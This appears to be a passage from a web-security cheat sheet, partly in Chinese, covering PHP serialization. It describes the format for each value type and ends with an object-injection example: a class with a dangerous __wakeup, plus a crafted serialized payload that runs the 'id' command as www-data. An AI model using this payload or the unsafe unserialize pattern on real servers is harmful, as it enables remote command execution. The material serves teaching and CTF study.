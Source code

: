 <br>

- Value
    - String
        - `s:size:value;`
    - Integer
        - `i:value;`
    - Boolean
        - `b:value;` ('1' or '0')
    - NULL
        - `N;`
    - Array
        - `a:size:{key definition; value definition; (repeat per element)}`
    - Object
        - `O:strlen(class name):class name:object size:{s:strlen(property name):property name:property definition;(repeat per property)}`
    - 其他
        - C - custom object
        - R - pointer reference


- Public / Private / Protected 序列化

    - 例如：class名字為: `Kaibro`，變數名字: `test`

    - 若為Public，序列化後：
        - `...{s:4:"test";...}`
    - 若為Private，序列化後：
        - `...{s:12:"%00Kaibro%00test"}`
    - 若為Protected，序列化後：
        - `...{s:7:"%00*%00test";...}`
    - Private和Protected會多兩個NULL byte

---

- Example
    
```php
    <?php

    class Kaibro {
        public $test = "ggininder";
        function __wakeup()
        {
            system("echo ".$this->test);
        }
    }

    $input = $_GET['str'];
    $kb = unserialize($input);
```

- Input: `.php?str=O:6:"Kaibro":1:{s:4:"test";s:3:";id";}`
- Output: `uid=33(www-data) gid=33(www-data) groups=33(www-data) `

<br>
